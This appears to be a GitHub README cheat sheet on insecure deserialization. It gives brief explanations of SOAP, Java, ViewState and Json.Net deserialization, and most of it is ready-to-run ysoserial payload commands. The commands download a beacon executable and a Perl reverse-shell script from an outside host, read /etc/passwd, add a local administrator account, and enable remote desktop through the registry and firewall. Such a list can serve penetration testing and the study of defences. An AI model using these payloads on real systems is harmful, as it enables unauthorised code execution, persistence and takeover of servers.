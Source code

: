 #  Insecure deserialization Vulnerability
Any Insecure deserialization vulnerability may occur when serialized object are allowed to alter.subconsequently,deserialization vulnerabilities could allow attackers to perform remote code execution without authentication in the context of application server and gaining access to unauthorized data.Serialized objects are generally sent across is base64 format used in web applications.Technically Serialization is the process of converting the object and class into a binary so that save into disk. on the other hand,deserialization is the process of converting the Object(Bring Back to original Object at the code stage)..

# SOAP NET Deserialization
```
ysoserial.exe -f SoapFormatter -g TextFormattingRunProperties -c "cmd /c ipconfig" -o raw
ysoserial.exe -f SoapFormatter -g TextFormattingRunProperties -c "cmd /c hostname" -o raw
ysoserial.exe -f SoapFormatter -g TextFormattingRunProperties -c "cmd /c certutil.exe -urlcache -split -f  http://192.168.100.199\beacon.exe C:\\Users\\Public\\beacon.txe" -o raw
ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "cmd /c reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f"

ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "cmd /c netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
"
```
# Java Deserialization 
```

java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "wget sdfsfdoztjxibkocen698fskck0ehs8yymn.burpcollaborator.net"
java -jar ysoserial-0.0.5-all.jar CommonsCollections1 'wget http://192.168.100.199:1010/reverse-shell.pl -O /tmp/shell.pl' > perl-reverse-shell.pl.bin
java -jar ysoserial-0.0.5-all.jar CommonsCollections1 'cat /etc/passwd' > passwd.bin
```
# ViewState Deserialization 

view state is the technique used by an ASP.NET Web page to persist changes to the state of a Web Form across postbacks. By default.
technically ViewState is used to store user data on page at the time of post back of web page however ViewState does not hold the controls,it holds the values of controls.
When tthe page is accessed, the current state of the page and values that need to be retained during postback are serialized into base64-encoded strings and output in the ViewState hidden field or fields.

**It might be possible to execute arbitrary OS Command In the context of applicaiton server if MAC doesn't enforce to enable in the viewstate parameter.**

This format seems to be standardized for all Viewstate implementations in the ASP.Net Application.

* Base64 **Can be defined using EnableViewStateMac and ViewStateEncryptionMode attribute set to false**
* Base64 + MAC (Message Authentication Code) **Enabled Can be defined using EnableViewStateMac attribute set to true**
* Base64 + Encrypted **Can be defined using viewStateEncryptionMode attribute set to true**
```
ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "cmd /c certutil.exe -urlcache -split -f  http://192.168.100.199\beacon.exe C:\\Users\\Public\\beacon.exe"
ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "cmd /c reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f"

ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "cmd /c netsh advfirewall firewall set rule group="remote desktop" new enable=Yes"
```
# Json Deserialization
```
ysoserial.exe -g WindowsIdentity -f Json.Net -c "ping 192.168.100.100" -o base64
ysoserial.exe -g WindowsIdentity -f Json.Net -c "cmd /c net user MeMe 123456!@ /add " -o base64
ysoserial.exe -g WindowsIdentity -f Json.Net -c "net localgroup administrators MeMe /add" -o base64
ysoserial.exe -g WindowsIdentity -f Json.Net -c "cmd /c netsh advfirewall firewall set rule group="remote desktop" new enable=Yes" -o base64
ysoserial.exe -g WindowsIdentity -f Json.Net -c "cmd /c reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f" -o base64

```
